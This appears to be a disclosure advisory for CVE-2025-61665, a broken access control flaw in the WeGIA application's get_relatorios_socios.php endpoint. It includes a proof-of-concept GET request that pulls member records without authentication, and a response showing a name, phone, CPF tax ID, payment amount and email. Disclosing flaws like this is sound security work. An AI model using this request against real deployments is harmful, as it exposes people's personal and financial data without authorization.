

## CVE-2025-61665: Controle de Acesso Quebrado no Endpoint `get_relatorios_socios.php`

> ***CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-61665***

## Resumo

<p style="text-align: justify;">Foi identificada uma vulnerabilidade de Controle de Acesso Quebrado no endpoint <code>get_relatorios_socios.php</code> do aplicativo WeGIA. Essa vulnerabilidade permite que atacantes não autenticados acessem diretamente informações pessoais e financeiras sensíveis dos membros sem exigir autenticação ou autorização.</p>

## Detalhes

Endpoint vulnerável: `get_relatorios_socios.php`

Parâmetros: `tipo_socio`, `tipo_pessoa`, `operador`, `valor`, `tag`, `status`

## PoC

```terminal
GET /WeGIA/html/socio/sistema/get_relatorios_socios.php?tipo_socio=x&tipo_pessoa=x&operador=maior_q&valor=&tag=x&status=x HTTP/1.1
Host: sec.wegia.org:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: https://sec.wegia.org:8000/WeGIA/html/socio/sistema/relatorios_socios.php
Cookie: _ga_F8DXBXLV8J=GS2.1.s1756605228$o47$g1$t1756611307$j47$l0$h0; _ga=GA1.1.424189364.1749063834
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
```

### Response (snippet):

```terminal
HTTP/1.1 200 OK
Date: Sun, 31 Aug 2025 20:00:43 GMT
Server: Apache/2.4.62 (Debian)
Vary: Accept-Encoding
Content-Length: 204
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

[{
    "nome": "Luis Barango",
    "telefone": "(71)98642-1278",
    "cpf": "649.659.320-56",
    "valor_periodo": "5000.00",
    "email": "teste@teste.com",
    "tipo": "F\u00edsica - Mensal - Boleto",
    "status": "Ativo",
    "tag": "Solicitante"
}]
```



## Impact

<p style="text-align: justify;">Broken Access Control vulnerabilities can have severe consequences, including:
  <ul>
    <li>Unauthorized access to restricted functionality;</li>
    <li>Escalation of privileges for low-level users;</li>
    <li>Exposure of sensitive data and potential system compromise;</li>
    <li>Loss of confidentiality and integrity of educational records;</li>
    <li>Reputational damage to the organization.</li>
  </ul>
</p>

## Reference

***[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-62wp-6qmh-6p5f](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-62wp-6qmh-6p5f)***

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***